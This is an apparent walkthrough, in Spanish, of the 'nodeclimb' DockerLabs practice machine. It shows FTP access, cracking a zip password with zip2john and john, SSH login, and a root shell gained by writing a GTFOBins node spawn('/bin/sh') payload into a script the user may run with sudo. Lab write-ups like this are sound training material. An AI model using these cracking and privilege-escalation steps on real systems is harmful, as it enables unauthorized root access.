 nmap: 21,22

![[dockerlabs/facil/nodeclimb/nmap.png]]

vamos al ftp y nos pasamos el zip

![[zip.png]]

y nos pide contraseña

![[zip2.png]]

ahora sacamos la contraseña con el comando

     zip2john secretitopicaron.zip

después 

     john has_zip


y da

![[jhon1.png]]

ahora sacamos el zip

![[password.png]]

y obtenemos la contraseña y usuario, entramos por el ssh, ahora entramos

![[dockerlabs/facil/nodeclimb/conexion.png]]

al hacer sudo -l podemos ver que hay un archivo script.js pero no tiene nada dentro, pero igual esta el node

![[dockerlabs/facil/nodeclimb/script.png]]

buscamos el node: https://gtfobins.github.io/gtfobins/node/
dentro del script.js que esta vacío colocamos este comando

     require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]}) 

y ejecutamos el script

     sudo /usr/bin/node /home/mario/script.js

![[dockerlabs/facil/nodeclimb/root.png]]

y somos root!